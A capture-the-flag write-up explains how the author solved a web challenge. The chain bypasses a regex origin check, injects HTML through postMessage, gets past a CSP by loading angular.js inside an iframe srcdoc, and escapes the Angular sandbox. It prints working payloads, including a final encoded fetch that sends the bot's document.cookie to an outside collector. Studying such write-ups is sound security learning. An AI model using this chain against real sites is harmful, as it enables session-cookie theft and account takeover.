

# You shall not pass!

> 997 | WEB
>
> We discovered a web portal used by COViD as a C2 platform to send messages to his ransomware victims. They have a script that accesses and hacks the websites posted back to the server! Can you stop them?
>
> [Web Portal](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/)

Writeup by [@4yn](https://github.com/4yn)

Man this felt way more challenging than a 1k point challenge. This was the only web challenge that my team Mushroom was unable to complete during the CTF, as we were stumped by the CSP on this page. Nonetheless, this challenge was an interestng way to chain several different exploits together to get a full XSS.

[A tl;dr available below](#summary)

## What we have to work with

On the [index page](./challenge/site/index.html), we have a web page with a form to "broadcast" a message, what looks like a list of messages and finally a form to submit a URL "to be hacked".


If we try to key in a message to the broadcast form, we are greeted with an on screen keyboard which doesn't want to hide itself even after we key in a message. That said, after we open the Chrome F12 menu and reduce the opacity of the keyboard we know that it does input text to the text box.


If we delete the on screen keyboard element using developer tools, we then have access to the "Broadcast!" button. On clicking, it sends a POST request containing the text provided to some endpoint and then receives a HTTP 200 OK response, though nothing else seems to change.


However, it looks like if we key in one word only and "broadcast" that, then another line is added to the messages list.

The next interesting thing to note is that the message list is actually nested inside of an `<iframe>` element. 


But how does the data get there? On inspecting the bottom of the page, we see the following script:


From this, we can tell that every time we "broadcast" a message to the server, internally the web page will send that message to inside the message list `<iframe>` to be displayed there, using a call to `postMessage()`. We look into the `<iframe>` that contains [`/broadcasts`](./challenge/site/broadcasts) to inspect it further. Specifically, the message list loads a script [`frame.js`](./challenge/site/javascripts/frame.js) that:
- Receives messages from the parent window using the `receiveMessage()` handler
- Checks if the origin of the sending page matches a regex that looks like the challenge server's origin
- If the message text is `"on"` or` "off"`, updates the CSS of the message list
- If the message text does not contain any of the characters ` '&|%@!#^`, a div tag is created and the message is written into the `.innerHTML` of the div. (That is why earlier messages that had spaces in them were not displayed!)

This should ring an alarm in your head and tell you that this page may be vulnerable to XSS.

Finally, the URL submission form seems to ping any links that we provide with headless chrome - which likely means that there is a bot visiting any links we provide and should be the victim of our XSS attack.


From this recon, we have our work cut out for us. Specifically, we want to:
- Make the bot load a web page under our control that has an `<iframe>` containing `/broadcasts`
- Set up the web page such that any `postMessage()` will pass the origin regex; and
- Craft a payload transmitted via `postMessage()` that passes character content checks and is executed to leak the page contents or the cookie of the bot

## Domain check bypass

Upon closer inspection of the origin regex:

```javascript
/^http:\/\/yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg/
```

Notice how there is a `^` at the start of the string but no `$` at the end?
This means the regex requires that the origin begins with `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg`, but does not require that the origin of the domain ends there! As such, we can set up our own server hosted at some origin such as `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.my.domain.com` and any pages loaded here will pass the check!


Luckily, I have a personal server at set up with a [wildcard DNS entry](https://en.wikipedia.org/wiki/Wildcard_DNS_record). With a DNS entry is for `*.my.domain.com`, both requests to `service.my.domain.com` and `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.my.domain.com` will eventually be processed by the same server. For this challenge, I ran a local flask webserver at port 3000, then used [SSH port forwarding](https://www.ssh.com/ssh/tunneling/example/) to expose the local webserver to port 1234 on my personal server with the DNS entry. 

After setting up the [tunnling](./tunnel.sh), I made a [simple flask server](./server.py) that serves a [static html page](./exploit.html) that:
- Loads an `<iframe>` that will point to `/broadcasts`
- After the frame is loaded, gets the payload from the URL search query in `x`
- Then `postMessage()` to the frame with the payload 

Sure enough, if we make a request to `<my-site>/x?=potato` we see that the text 'potato' is added to the list of messages - the domain bypass works.


## XSS with Content Filter and Content Security Policy

We now have a way to inject HTML into the `<iframe>`, so let's see what exactly works given the content filter. If there is text displayed and we see a 4th "line" below the text "YOU ARE APPROACHING ME???" we know the payload passed the content filter.

- Formatting elements work  
    
- `` tags without any `src` work (see the blank row?)  
    
- `` tags with `src` are blocked because messages with spaces are filtered  
    
- `` tags with `src` [separated by a `/` character](https://github.com/s0md3v/AwesomeXSS#awesome-bypassing) work  
    
- Inline `<script>` tags don't execute because [javascript inserted by `.innerHTML` is not executed](https://stackoverflow.com/a/58804758/12843211) 😔  
    
- `` tags with onerror don't execute because CSP blocked inline scripts 👻  
    

Oh no, we got blocked by CSP! The `/broadcast` endpoint a CSP that only allows embedding of scripts hosted at the challenge website (the `self` rule), but curiously also has the rule `unsafe-eval`:

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' 'self'; object-src 'none'">
```

Are there any other javascript files available on the server? Since the main page had the on screen keyboard, it likely had some kind of JS library available. Sure enough, the server hosts its own instances of `angular.min.js` (version 1.5.6) and `jquery.min.js`, which means we may be able to embed the scripts in some form. 

However:

- `<script>` tags with src set to the server's javascript files don't execute, once again because the tags inserted by `.innerHTML` are not loaded properly*  


\* Note to self: when testing script injections with frames and devtools, make sure you have right frame inspected. See the red bar with "broadcasts" on top of the console bar in devtools?

What else can we try to do? Let's try injecting `<iframe>` tags:

- `<iframe>` tags with `src` pointing to the same origin work  

- `<iframe>` tags with `src` pointing to embeddable websites work  
  
- `<iframe>` tags with `srcdoc` work  
  
- `<iframe>` tags with `srcdoc` with inline script tags don't execute because of CSP 😢  (the frame inherits the direct parent's CSP settings)  

- `<iframe>` tags with `srcdoc` with embed script tags work 😲  


OK, so it looks like if we inject an `<iframe>` and set its contents with the `srcdoc` attribute, we can get a frame with `angular.js` loaded! This means that we now can try some [client side template injection](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti). Though we cannot inject inline script tags, `angular.js` is known for its client side templating - it first looks for parts of the HTML document that has the attribute `ng-app` to enable itself, then it searches through the entire subtree and runs any code found enclosed in double curly braces. For exaple, having `<div>{{1+1}}</div>` in the HTML document will magically turn into `<div>2</div>`*. 


\* Careful when inserting the `+` character inside a URL, chrome will encode it as a space character, so remember to use `%2B` instead

At this point in time, let's update the HTML page we are serving to read payloads from another search parameter `?ng=` to automatically wrap the payload inside the template injection we have so far.


## Getting Arbitary Code Execution

Unfortunately, we can't exactly exfiltrate all the data we want just yet. Anything we inject now is actually an [`angular.js` "expression"](https://docs.angularjs.org/guide/expression) which is limited to very few features. Angular does let you use the `$eval()` method inside of templates, but because of the content filter from earlier on we can't insert any single quotes - which means we can't insert any more strings since we've already used one pair of double quotes for the `<iframe>` `srcdoc`.

Luckily, some googling gives us an interesting writeup on [`angular.js` template injection without quotes](https://appsec-labs.com/portal/angular-template-injection-without-quote-characters/) which is exactly the issue we are facing! Essentially, we can create arbitary strings without quotes by using the `String.fromCharCode` constructor even in our current limited scope. 


Now we can create whatever string we want, but we still need a way to escape the angular expression sandbox. Googling around we can find a [nice list of `angular.js` payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md). We can find one that works with version 1.5.6 and adapt that to our arbitary string generation:

```javascript
// Payload from PayloadAllTheThings
x={1:valueOf.name.constructor.prototype};x[1].charAt=[].join;

$eval(
    // "x=alert(1)" with our string injection
    valueOf.name.constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
);

// ?ng=x={1:valueOf.name.constructor.prototype};x[1].charAt=[].join;$eval(valueOf.name.constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41));
```

And sure enough, we have running javascript!


Again, let's update the HTML page we are serving to read payloads from a final search parameter `?js=` which can generate the proper `fromCharCode` array for us.


Finally, let's try to leak the user's cookie using a fetch request. For whatever reason `fetch(<url> + document.cookie)` had issues being run by the bot, but sending a `POST` request with the cookie in the body did work.


Great, everything seems to be working. Now all we need to do is to submit that URL to "get hacked" on the main page and:


```
flag=govtech-csg{V3Ni,v1dI,v!Cl}
```

Winning request to our server will look like:

```
http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<your server>/?js=fetch(%22<your HTTP collector>%22,{%22method%22:%22POST%22,%22body%22:document.cookie})
```

And the winning payload sent to `postMessage` looks like:
```
<iframe/srcdoc="<script/src=/javascripts/angular.min.js></script><div/ng-app>{{x={1:valueOf.name.constructor.prototype};x[1].charAt=[].join;$eval(valueOf.name.constructor.fromCharCode(120,61,102,101,116,99,104,40,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,50,97,53,51,99,53,100,45,97,54,57,98,45,52,101,97,98,45,97,101,98,55,45,98,97,101,100,56,54,99,49,56,56,48,49,34,44,123,34,109,101,116,104,111,100,34,58,34,80,79,83,84,34,44,34,98,111,100,121,34,58,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,41));}}</div>">
```

## Summary

- Host website where the host  begins with `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg` to bypass a origin check with regex
- Create an `<iframe>` holding `/broadcasts` of the challenge server
- `postMessage` to the `/broadcasts` `<iframe>` to inject HTML via `.innerHTML`
- Payload to be sent to `postMessage` contains another `<iframe>` that renders a sub-page embedding `angular.js` source code hosted on the challenge server and creates an `angular.js` app context to bypass CSP
- Use `angular.js` client side template injection to get arbitary JS execution
- Leak the challenge server's `document.cookie`

